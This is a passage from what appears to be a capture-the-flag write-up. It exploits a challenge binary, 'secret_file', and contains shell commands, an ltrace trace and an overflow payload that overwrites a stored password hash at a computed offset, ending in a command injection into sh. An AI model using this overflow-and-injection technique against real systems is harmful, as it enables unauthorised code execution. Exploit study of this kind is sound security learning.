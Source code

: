 ```bash
```

It looks like it overwrites the value of the initial message digest and compares with our inputs message digest - which is a hash over 256 `A`s:

```bash
$ p -c 'import sys; sys.stdout.write("A"*0x100)' |sha256sum 
e075f2f51cad23d0537186cfcd50f911ea954f9c2e32a437f45327f1b7899bbb  -
```

After some testing, we see that the initial message digest can be overwritten starting at the `0x11b`th byte, or `0x100+0x1b`==`256+27`th byte:

```bash
$ p -c 'print "A"*0x100+"B"*0x1B+"test"' | ltrace -f ./secret_file 2>/tmp/out
wrong password!
$ tail -f /tmp/out
[...]
[pid 4451] snprintf("bb", 3, "%02x", 0xbb)                                                                    = 2
[pid 4451] strcmp("test", "e075f2f51cad23d0537186cfcd50f911"...)                                              = 15
[pid 4451] puts("wrong password!")                                                                            = 16
```

Let's provide it with the correct hash and see what it does:

```bash
$ p -c 'print "A"*0x100+"B"*0x1B+"e075f2f51cad23d0537186cfcd50f911ea954f9c2e32a437f45327f1b7899bbb"' | ./secret_file 
sh: 1: BBBBBBBBBBBBBBBBBBBBBBBBBBBe075f2f51cad23d0537186cfcd50f911ea954f9c2e32a437f45327f1b7899bbb: not found
```

Looks suspicious and smells like Command Injection!

If we have a look at `radare2`'s graph by doing this:

* Open `r2 ./secret_file`
* Execute `aa`: `[0x00000ca0]> aa`
* Enter `V`isual mode by pressing `V`, then `p` to go into assembly view:
![](./r2-visual.png)
* Go to the `main` function (Just press once `N`):
![](./r2-main.png)